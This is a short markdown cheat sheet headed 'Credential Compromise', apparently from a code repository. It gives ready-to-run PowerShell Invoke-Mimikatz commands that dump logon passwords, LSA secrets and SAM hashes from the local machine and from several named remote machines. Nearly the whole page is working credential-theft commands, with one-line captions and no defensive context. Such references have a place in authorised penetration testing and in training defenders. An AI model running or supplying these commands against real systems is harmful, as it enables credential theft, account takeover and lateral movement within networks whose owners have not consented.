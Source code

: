 # Credential Compromise
> test

## Mimikatz

Dump credentials on a local machine.
```powershell
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'
```

Dump credentials on multiple remote machines.
```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2") 
```

logon password
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords" "exit"'
```

